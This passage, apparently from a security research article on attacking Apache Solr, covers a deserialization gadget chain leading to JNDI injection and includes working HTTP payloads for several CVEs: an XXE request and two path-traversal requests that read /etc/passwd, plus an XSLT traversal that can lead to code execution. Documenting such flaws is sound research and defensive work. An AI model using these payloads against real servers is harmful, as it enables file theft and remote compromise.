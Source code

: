 In this way we trigger a deserialization attack with the known gadget chain based on the 'com.sun.rowset.JdbcRowSetImpl' class. It requires two setters to be called for 'jndiName' and 'autoCommit' properties and leads us to the vulnerable 'InitialContext.lookup' operation, so we can exploit it as an ordinary JNDI resolution attack.
See our [Exploiting JNDI Injections](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) article for more information about JNDI attacks. Solr is based on Jetty, hence the Tomcat trick is not applicable here, but you can rely on remote classloading which was fixed for LDAP just quite recently. 

### 4. \[CVE-2012-6612, CVE-2013-6407, CVE-2013-6408] XXE in the Update Handler
**Target Solr version**: 1.3 - 4.1 or 4.3.1<br>
**Requirements:** none

If you have a very old version of Solr, it could also be affected by a trivial XXE in the update handler:
```http
POST /solr/db/update HTTP/1.1
Host: 127.0.0.1:8983
Content-Type: application/xml
Content-Length: 136

<!DOCTYPE x [<!ENTITY xx SYSTEM "/etc/passwd">]>
<add>
  <doc>
    <field name="id">&xx;</field>
  </doc>
  <doc>
  </doc>
</add>
```

### 5. \[CVE-2013-6397] Remote Code execution via XSLT response writer and path traversal
**Target Solr version**: 1.3 - 4.1 or 4.3.1<br>
**Requirements:** ability to upload an XLS file to any directory
There is a path traversal vulnerability found by [Nicolas Grégoire](https://twitter.com/Agarri_FR) in 2013, he also wrote [a good blogpost](https://www.agarri.fr/blog/archives/2013/11/27/compromising_an_unreachable_solr_server_with_cve-2013-6397/index.html) about it:

`GET /solr/db/select/?q=31337&wt=xslt&tr=../../../../../../../../../../../../../../../../../usr/share/ant/etc/ant-update.xsl`

It could lead to a remote code execution if an attacked has ability to upload a custom XSL file using the above-mentioned XXE or another vulnerability.

### 6. \[CVE-2017-3163] Arbitrary file read via path traversal attack in ReplicationHandler
**Target Solr version**: <5.5.4 and <6.4.1<br>
**Requirements:** none

`GET /solr/db/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1`
